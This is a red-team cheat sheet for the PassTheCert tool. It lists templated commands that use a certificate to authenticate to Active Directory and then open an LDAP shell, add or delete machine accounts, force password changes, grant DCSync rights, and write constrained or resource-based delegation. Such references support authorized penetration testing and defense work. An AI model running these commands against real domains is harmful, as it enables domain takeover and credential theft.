 # passthecert

% certificate, windows, Active directory, shadow credential, rbcd, dcsync, pkinit, certificate

## download
```
https://github.com/AlmondOffSec/PassTheCert
```

## doc
```
https://offsec.almond.consulting/authenticating-with-certificates-when-pkinit-is-not-supported.html
```


## Computer mgt - add (windows)
#plateform/windows #target/remote  #cat/UTILS
```powershell
.\PassTheCert.exe --server ad1.contoso.com --cert-path Z:\ad2.pfx --add-computer --computer-name DESKTOP-1337$
```


## ldapshell  (linux)
#plateform/linux #target/remote  #cat/ATTACK/AD/DACL-ABUSE

```bash
passthecert.py -action ldap-shell -crt <certficcate>.crt -key <certficcate>.key -domain <domain> -dc-ip <dc_ip>
```

## Computer mgt - add (linux)
#plateform/linux #target/remote  #cat/ATTACK/AD/DACL-ABUSE
```bash
passthecert.py -action add_computer -crt <certficcate>.crt -key <certficcate>.key -domain <domain> -dc-ip <dc_ip> -computer-name <computer_name|Jubeaz>$ -computer-pass <password|Jubeaz123+->
```

## Computer mgt - del (linux)
#plateform/linux #target/remote  #cat/ATTACK/AD/DACL-ABUSE
```bash
passthecert.py -action del_computer -crt <certficcate>.crt -key <certficcate>.key -domain <domain> -dc-ip <dc_ip> -computer-name <computer_name|Jubeaz>$ 
```

## Computer mgt - change password (linux)
#plateform/linux #target/remote  #cat/ATTACK/AD/DACL-ABUSE
```bash
passthecert.py -action modify_computer -crt <certficcate>.crt -key <certficcate>.key -domain <domain> -dc-ip <dc_ip> -computer-name <computer_name|Jubeaz>$ -computer-pass <password|Jubeaz123+->
```

## User mgt - change password (linux)
#plateform/linux #target/remote  #cat/ATTACK/AD/DACL-ABUSE
```bash
passthecert.py -action forcePWDchange -crt <certficcate>.crt -key <certficcate>.key -domain <domain> -dc-ip <dc_ip> -target user_sam -new-pass <password|Jubeaz123+->
```

## User mgt - DCSYNC (linux)
 ```bash
passthecert.py -action modify_user -crt <certficcate>.crt -key <certficcate>.key -domain <domain> -dc-ip <dc_ip> -target <user> -elevate
 ```
 
 ## constrained delegation - add (linux)
#plateform/linux #target/remote  #cat/ATTACK/AD/DACL-ABUSE
```bash
passthecert.py -action add_computer -crt <certficcate>.crt -key <certficcate>.key -domain <domain> -dc-ip <dc_ip> -computer-name <computer_name|Jubeaz>$ -delegated-services <spn1>,<spn2>
```

## rbcd - add (linux)
#plateform/linux #target/remote  #cat/ATTACK/AD/DACL-ABUSE
Write new SIDs to the msDS-AllowedToActOnBehalfOfOtherIdentity

```bash
passthecert.py -action write_rbcd -crt <certficcate>.crt -key <certficcate>.key -domain <domain> -dc-ip <dc_ip> -delegate-to <target>$ -delegate-from <computer_name|Jubeaz>$
```